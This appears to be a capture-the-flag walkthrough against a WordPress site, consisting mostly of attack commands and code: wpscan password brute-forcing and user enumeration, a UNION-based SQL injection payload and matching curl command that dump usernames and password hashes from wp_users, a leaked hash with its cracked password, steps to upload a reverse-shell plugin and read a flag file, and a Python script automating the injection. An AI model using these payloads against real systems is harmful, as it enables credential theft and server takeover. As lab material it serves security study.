 ### Password Cracking
```sh
$ wpscan --url <url> -U <username> -P <password_wordlist>
```

### extended enumeration
```
$ wpscan --url http://alvida-eatery.org -e u vp vt --random-user-agent --force --wp-content-dir http://alvida-eatery.org/wp-content


```

```
SQLI attack:
/wp-admin/admin-ajax.php?action=get_question&question_id=1 union select 1,1,char(116,101,120,116),user_login,user_pass,0,0,null,null,null,null,null,null,null,null,null from wp_users

curl -s 'http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1+union+select+1,1,char(116,101,120,116),user_login,user_pass,0,0,null,null,null,null,null,null,null,null,null+from+wp_users'
```

## Credentials leaked
```
$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0:hulabaloo
```

## How to get the flag
1. log in to `/wp-admin` using the credentials found
2. upload a wordpress plugin with reverse shell 
3. activate it and obtain a low-level shell `www-data`
4. `cat $(find / -name 'flag.txt' 2>/dev/null)`


#sqli #python 
```
#!/bin/env python3
import requests as req
import urllib.parse as enc

host='alvida-eatery.org'
url_base='/wp-admin/admin-ajax.php?action=get_question&question_id='
url = 'http://' + host + url_base

field1='user_login'
field2='user_pass'
table_name='wp_users'
query=f"1 union select 1,1,char(116,101,120,116),{field1},{field2},0,0,null,null,null,null,null,null,null,null,null from {table_name}"

# url-encode query
enc_query=enc.quote(query)

url += enc_query

r = req.get(url)

print(url)
print('')

field1_pre='Insert a question - Required\\" value=\\"'
field2_pre='Insert a description\\" value=\\"'

```